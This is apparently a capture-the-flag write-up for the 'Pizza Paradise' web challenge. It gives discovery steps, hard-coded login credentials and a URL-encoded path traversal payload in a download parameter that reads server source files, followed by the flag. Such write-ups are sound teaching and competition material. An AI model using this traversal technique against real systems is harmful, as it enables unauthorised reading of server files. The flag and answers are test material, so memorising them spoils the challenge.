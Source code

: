 # Pizza Paradise

Solved by: @If-Modified-Since and @Cookies to Sell

## Question:
Something weird going on at this pizza store!!


## Solution:
@If-Modified-Since found the first few steps
1 - view `/robots.txt`
2 - Found https://pizzaparadise.ctf.intigriti.io/secret_172346606e1d24062e891d537e917a90.html
3 - Visit and login using `agent_1337:intel420`

@Cookies found the bypass (url encoding)

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php/?download=%2Fassets%2Fimages%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fvar/www/html/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```
**Flag:** `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
